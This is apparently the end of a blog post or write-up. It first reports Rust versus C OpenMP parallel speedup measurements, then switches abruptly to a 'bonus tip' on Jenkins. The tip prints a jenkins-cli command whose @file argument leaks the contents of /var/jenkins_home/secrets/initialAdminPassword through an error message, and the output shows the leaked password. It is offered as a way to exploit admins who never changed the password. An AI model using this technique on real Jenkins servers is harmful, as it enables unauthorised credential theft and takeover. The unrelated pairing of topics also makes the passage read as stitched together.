 These are the parallelization speedup compared to a non-threaded program obtained with different libraries:

* Rust ```rayon::par_iter``` speedup: 4.75 on 4 cores/8 threads, 11.00 on 8C/16T
* Rust ```std::threads``` speedup: 4.75 on 4C/8T
* C OpenMP: 6.16 on 4C/8T, 17.5 on 8C/16T

On its own this doesn't make OpenMP superior to Rust's parallelization, the difference could be explained by a number of factors including processor architecture, a full pipeline, lack of optimization... But it does seem consistent with online testimonies. A next step could be to find a better C library and see if the results hold up.

Bonus finding: temporary admin password
=======================================
Since you've stuck with me till the end and shared my frustration here's my bonus tip: some Jenkins installs have a temporary admin password stored in cleartext in the file ```/var/jenkins_home/secrets/initialAdminPassword```. Maybe your admin got lazy and hasn't changed it?

```
java -jar /usr/local/share/jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080/ who-am-i @/var/jenkins_home/secrets/initialAdminPassword
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: 8f0136976b3a4c31bcf638133c23a90b
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```
